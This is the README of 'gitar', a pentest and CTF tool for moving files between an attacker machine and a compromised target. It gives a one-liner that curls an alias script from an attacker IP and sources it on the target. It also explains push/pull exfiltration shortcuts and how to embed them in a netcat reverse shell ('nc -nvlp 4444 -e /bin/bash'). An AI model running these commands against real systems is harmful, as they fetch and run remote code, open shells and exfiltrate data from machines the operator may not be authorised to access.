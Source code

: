 <h1 align=center> 🎸 gitar ⇆</h1>

|![demo](https://github.com/ariary/gitar/blob/main/img/gitar-demo.gif)|
|:---:|
|**~>** Have the  ***simplest possible shortcuts*** to upload/download file to/from the target machine<br>**~>** ***No installation needed*** on target machine<br>**~>** ***Fast and simple*** deployment|


## TL;DR *- and listen music*

On my target machine:
 - **Download a file** to my attacker machine: `pull [file]`
 - **Download a directory** to my attacker machine: `pullr [directory]`
 - **Upload a file** to my attacker machine: `push [file]`
 - **Upload a directory** to my attacker machine: `pushr [directory]`

*Before be able to use these shortcut you have to [set up](#set-up) both machines. Once again, the aim is to made it as simple as possible*

## Set up

***~>*** To make **set up even simpler** shortcut/aliases are a great benefit. See [them 💥](https://github.com/ariary/bang/blob/main/README.md#gitar-pentest-easy-file-sharing)

### Pre-requisites

* HTTP Network connectivy between attacker & target machine
* On target machine: `curl` 
	* `tar` for upload directory 
* On attacker machine: 
	* `xclip` to copy command on clipboard (not required)
	* `tree`: to expose it trough server (not required)

The aim is to keep "target requirements" as fit as possible. Attacker machine requirements are not a big deal as we have plenty control over it and time to configure it.

### Launch `gitar` server 
 
 1. <sup>(Attacker machine)</sup> Launch the "server" : `gitar -e [server_reachable_ip]`
 2. <sup>(Target machine)</sup> Get shortcuts and source them. The one-liner corresponding is by default copy on clipboard. It is also provided by step 1. (in gitar output): `curl -s http://[attacker_ip:port]/alias > /tmp/alias && source /tmp/alias && rm /tmp/alias`

**And that's all, you can now `push`or `pull` file [🎶](#tldr---and-listen-music)**

 [`with 💥`](https://github.com/ariary/bang/blob/main/EXAMPLES.md#share-files)

### Secure launch of `gitar` server

 
This is basicaly the same as launching `gitar` server. But as we expose our http server we become the prey. Hence we must harden a bit the server. To do this we launch `gitar` inside a container and use HTTPS.

* To enable HTTPS you must have certificates. Generate them with `generate.sh`.
* To use container image, you have to built it from ` Dockerfile`: `make build.image-gitar`

The following steps expose files of current directory. Files uploaded by remote are written inside current directory also.

1. <sup>(Attacker machine)</sup> Launch the "server" : `docker run --rm --cap-drop=all --cap-add=dac_override -v "${PWD}:/app/upload" -v "${HOME}/.gitar/certs/:/certs:ro" -v "${PWD}:/app/download" -p 9237:9237 gitar -copy=false -u /app/upload -d /app/download -tls=true -c /certs`
 2. <sup>(Target machine)</sup> Get shortcuts and source them. The one-liner corresponding is in the container stdout.

**You can now `push`or `pull` file being more safe [🎶](#tldr---and-listen-music)**

[`with 💥`](https://github.com/ariary/bang/blob/main/EXAMPLES.md#share-files-safely)

### Load shortcut directly in your reverse shell

**~>** *Below are the steps to have shortcuts directly embedded in your `nc` reverse shell*

1. <sup>(Target machine)</sup> Launch your classic listener: `nc -nvlp 4444 -e /bin/bash`
2. <sup>(Attacker machine)</sup> Launch the "server" : `gitar -e [server_reachable_ip]` *(By default this will copy on clipboard the command to set up gitar exchange, also available in server output)*
3.  <sup>(Attacker machine)</sup> Connect to the reverse shell + load shortcut within:`nc [VICTIM_IP] 4444` then `CTRL+V` 

An alternative is `export CMD=[CTRL+V] && (echo $CMD && cat) | nc [VICTIM_IP] 4444` *(Note: with `cat` you will not beneifit of bash completion)*

**And enjoy you revshell [🎶](#tldr---and-listen-music)**

## Enhancement 🛣️

**~>** *All improvements must keep `gitar` simple and don't add unlikely pre-requisites (especially for the target machine)*

**Useful cause we will expose our http server and thus we become the prey**
- Hardening container image (use a non-root user, but in same time we have to be able to read/write from host volumes)
- HTTPS, basic authent (for the file server part)

**Improve UX**
- Handle case when curl isn't on target machine (wget version?) *Proposal: flag `method` (default curl), will determine the handler "alias" and adapt it in function (wget and Invoke-Webquest)
- An option to directly launch the reverse shell session with shortcut from `gitar`
- Soft to workaround limit due to `cat` use for reverse shell connection => autocompletion in reverse shell will not work as we have a pipe not a terminal. (To solve the pb we must have a prgm that creates a pseudoterminal, spawns a program connected to this pseudoterminal [see](https://stackoverflow.com/questions/5843741/how-can-i-pipe-initial-input-into-process-which-will-then-be-interactive) )

<!--- 🎸 Make file exchange more Rock'N'Roll during pentest/ctf  ➳ No requirement & Simple shortcuts--->

<div align=center><img src="https://github.com/ariary/gitar/blob/main/img/gitar-small.png"><div>
	
	
